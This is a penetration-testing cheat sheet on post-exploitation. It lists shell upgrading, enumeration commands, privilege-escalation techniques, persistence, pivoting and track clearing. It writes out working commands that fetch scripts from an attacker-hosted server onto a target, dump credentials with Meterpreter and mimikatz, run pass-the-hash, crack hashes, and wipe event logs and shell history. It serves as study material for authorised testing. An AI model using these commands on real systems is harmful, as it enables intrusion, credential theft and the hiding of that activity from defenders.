

# Post Exploitation

After gaining foothold to the system. We have to do: 

Stable Shell/Upgrading Shell → Local Enumeration → Privilege Escalation → Persistence → Pivoting → Clearing Tracks

**Table of Contents:**

- <a href='#S'>Stable Shell/Upgrading Shell</a>
- <a href='#L'>Local Enumeration</a>
    - <a href='#WL'>Windows CMD Commands</a>
    - <a href='#LL'>Linux Shell Commands</a>
    - <a href='#M'>Meterpreter Commands/MsfConsole Modules]</a>
- <a href='#PE'>Privilege Escalation</a>
    - <a href='#WPE'>Windows PrivEsc]</a>
    - <a href='#LPE'>Linux PrivEsc</a>
- <a href='#P'>Persistence</a>
- <a href='#pivot'>Pivoting</a>
- <a href='#C'>Clearing Tracks</a>

<h1 id='S'>Stable Shell/Upgrading Shell</h1>

If you gain reverse/bind shell on Linux and if it is unstable or non-interactive shell then use the following commands.

```bash
python/2/3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=bash

#Press Ctrl + Z to make your shell a background job 
#Then type the below in your attacker machine

stty raw -echo && fg #fg command to comeback to the target machine
```

You can also upgrade your shell to the Meterpreter shell by uploading MsfVenom payload or if you have the open session in MsfConsole then

```bash
msfconsole> sessions -u <sessionNumberToUpgrade>
```

<h1 id='L'>Local Enumeration</h1>

<h2 id='WL'>Windows CMD Commands</h2>

```bash
# SYSTEM INFORMATION
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn

# USERS & GROUPS
whoami /priv
query user    #To check logged in users
net users
net user <user>
net localgroup
net localgroup <groupname> 

# NETWORK INFORMATION
ipconfig
ipconfig /all
route print
arp -a    
netstat -ano
netsh firewall show state
netsh advfirewall    #to get help
netsh advfirewall show allprofiles
netsh advfirewall firewall show state

# PROCESSES & SERVICES
net start    #to list out the services
wmic service list brief
tasklist /SVC   #to list out the processes
schtasks /query /fo LIST /v  #scheduled task 
```

**AUTOMATED TOOL FOR WIN ENUM.**

GitHub Repo: ‣

TRANSFER AUTOMATED SCRIPT TO THE TARGET USING THE BELOW COMMANDS:

```bash
# ATTACKER MACHINE
python2 -m SimpleHTTPServer
python3 -m http.server

# TARGET MACHINE
certutil -urlcache -f http://<ip>/<pathToFile> <fileOutput>
```

```powershell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OuptutFilename jaws-enum.txt
```

<h2 id='LL'>Linux Shell Commands</h2>

```bash
# SYSTEM INFORMATION
hostname
cat /etc/issue
cat /etc/*release
uname -a
uname -r
env
lscpu
free -h   #ram
df -h    #filesystem
df -ht ext4
lsblk | grep sd
dpkg -l

# USERS & GROUPS
groups <user>
groups   #to list out the groups
cat /etc/passwd
w
who
last
lastlog

# NETWORK INFORMATION
ifconfig
ip a s
cat /etc/network
cat /etc/hosts
cat /etc/hostname
cat /etc/resolv.conf
arp -a

# PROCESSES & CRONJOBS
ps
ps aux
top
crontab -l
cat /etc/crontab
```

**AUTOMATED TOOL FOR LINUX ENUM**.

GitHub repo: https://github.com/rebootuser/LinEnum

TRANSFER AUTOMATED SCRIPT TO THE TARGET USING THE BELOW COMMANDS:

```bash
# ATTACKER MACHINE
python2 -m SimpleHTTPServer
python3 -m http.server

# TARGET MACHINE
wget http://<ip>/<pathToFile>
```

<h1 id=M>Meterpreter Commands/MsfConsole Modules</h1>

METERPRETER COMMANDS

```bash
sysinfo

getuid
getprivs 

ps
pgrep <processName>   #to get PID
migrate <PID>

ifconfig
netstat
route
arp
```

MSFCONSOLE POST MODULES CAN BE USED FOR POST EXPLOITATION ENUMERATION

```bash
msfconsole> search type:post platform:<windows/linux> gather
```

<h1 id='PE'>Privilege Escalation</h1>

<h2 id='WPE'>Windows PrivEsc</h2>

**Manual:**

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

https://github.com/SecWiki/windows-kernel-exploits

**Automated**:

Metasploit post module named ‘**local_exploit_suggestor’** can be used.

**NOTE**: Kernel exploit isn’t recommended because it makes the OS unstable.

There are many MsfConsole POST modules that can be used for PrivEscalation

**Some of the PrivEscalation Techniques:**

- UAC Bypass
    - Use MsfConsole UAC bypass modules
    - ‣ contains a well-documented list of various methods to bypass UAC on multiple versions of Windows.
- Access Token Impersonation
    - **load incognito** in meterpreter shell to load this module and then use **list_tokens -u** command to list all available tokens and **impersonate_token “<username>”** to simply impersonate the user. ****
- Unquoted Service Paths
    - Do service enumeration and find unquoted path to replace with the new exe program
- Credential Dumping
    - Use **kiwi** in meterpreter shell
    - Use **mimikatz** on target machine.

<h2 id='LPE'>Linux PrivEsc</h2>

https://github.com/mzet-/linux-exploit-suggester

**Some of the PrivEscalation Techniques:**

- SUDO permissions
- Misconfigured Cron-Jobs
- SUID Binaries
- Credential Dumping
- Misconfigured File perms on Critical Files
    - /etc/passwd has write perms: Add the Hash of the password in the place of x
    - /etc/shadow has read perms: Get the Hash and crack it.

<h1 id='P'>Persistence</h1>

Persistence can be easily done by using MsfConsole Persistence Modules. You can use Resource Scripts generated by the same persistence module in order to clear the persistence settings or configuration to the target system whenever you are done with pentesting.

Persistence can be done through getting Credential of the users or the Hash of the password for Pass-The-Hash Attack. New user account creation or changing password might result in alerting the security team of the target. You should be stealthy.

Meterpreter commands to dump hashes after getting root/admin access on the target.

```bash
pgrep lsass
migrate <PIDofLsass>
# Both in Linux and Windows
hashdump   #in order to get hashes

# Only in Windows
load kiwi
lsa_dump_sam
```

You can use mimikatz program in the target Windows machine in order to dump hashes.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::logonpasswords
mimikatz> lsadump::sam
```

**Pass-The-Hash Attack**

You can use the msf exploit module named **psexec** to do a Pass-The-Hash attack. You have to give PASS=\<LM>:\<NTLM> in this module in order to work correctly as well as tweak the target settings as well to Native Upload.

You can use crackmapexec to do this same attack but used -H instead -p and pass the NTLM hash only.

To crack the Linux Password Hashes:

```bash
john --format=sha512crypt <unshadowfilelocation>
hashcat -m 1800 hashes.txt /usr/share/wordlist/rockyou.txt
# $1 prefix in password hash for MD5
# $2 prefix in password hash for Blowfish
# $5 prefix in password hash for SHA-256
# $6 prefix in password hash for SHA-512
```

To crack the Windows Password Hashes:

```bash
john --format=NT hashes.txt
hashcat -m 1000 hashes.txt /usr/share/wordlist/rockyou.txt
```

<h1 id='pivot'>Pivoting</h1>



It’s easy to do pivoting using Meterpreter shell

```bash
run autoroute -s <CIDR notation of target's internal network>
```

You can’t check for the version using the auxiliary module by only enabling the IP route. If you wanna visible the port from ***victim2*** to you then you have to do port forwarding through ***victim1*** meterpreter session.

```bash
meterpreter> portfwd add -l 1080 -p 80 -r <victim2IP>
```
Now  simply do Nmap scan on your localhost port
```bash
nmap -sV -p 1080 localhost
```

Another thing is that you can’t use a reverse TCP connection to get the shell on the ***victim2.*** Use bind TCP shell.


<h1 id='C'>Clearing Tracks</h1>

You can use resource scripts that are generated by the persistence modules in order to remove the persistence service or any configuration done to maintain persistence on the target machine

```bash
#persistence modules also generate rc file for the cleanup
meterpreter> resource <rcFilePath>
```

Simply remove the Files that were transferred by you for exploitation or enumeration.

You can clear event logs of Windows but it’s not recommended because it clears all the logs of the target system not the selected one which is related to you.

```bash
meterpreter> clearev  #event log clear, NOT RECOMMENDED!
```

You can clear .bash_history to clear your tracks on LInux

```bash
history -c   #to clear
~/.bash_history  #Remove traces from here or link it to /dev/null
```